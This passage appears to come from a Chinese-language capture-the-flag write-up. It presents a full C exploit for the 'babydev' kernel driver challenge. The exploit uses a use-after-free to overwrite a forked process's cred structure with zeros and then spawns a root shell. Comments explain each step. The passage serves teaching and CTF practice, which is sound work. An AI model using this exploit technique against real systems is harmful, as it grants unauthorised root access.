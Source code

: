 根据我们的思路，我们可以给出以下的Expliot：

```
#include &lt;sys/types.h&gt;
#include &lt;sys/stat.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
#include &lt;stdint.h&gt;
#include &lt;fcntl.h&gt;
#include &lt;string.h&gt;
int main()
{
    int fd1 = open("/dev/babydev", 2);
    int fd2 = open("/dev/babydev", 2);

    // 修改device_buf_len 为 sizeof(struct cred)
    ioctl(fd1, 0x10001, 0xA8);

    // 释放fd1，此时，LKMs2的device_buf将指向一块大小为sizeof(struct cred)的已free的内存
    close(fd1);

    // 新起进程的 cred 空间将占用那一块已free的内存
    int pid = fork();
    if(pid &lt; 0)
    {
        puts("[*] fork error!");
        exit(0);
    }

    else if(pid == 0)
    {
        // 篡改新进程的 cred 的 uid，gid 等值为0
        char zeros[30] = {0};
        write(fd2, zeros, 28);

        if(getuid() == 0)
        {
            puts("[+] root now.");
            system("/bin/sh");
            exit(0);
        }
    }

    else
    {
        wait(NULL);
    }
    close(fd2);

    return 0;
}
```
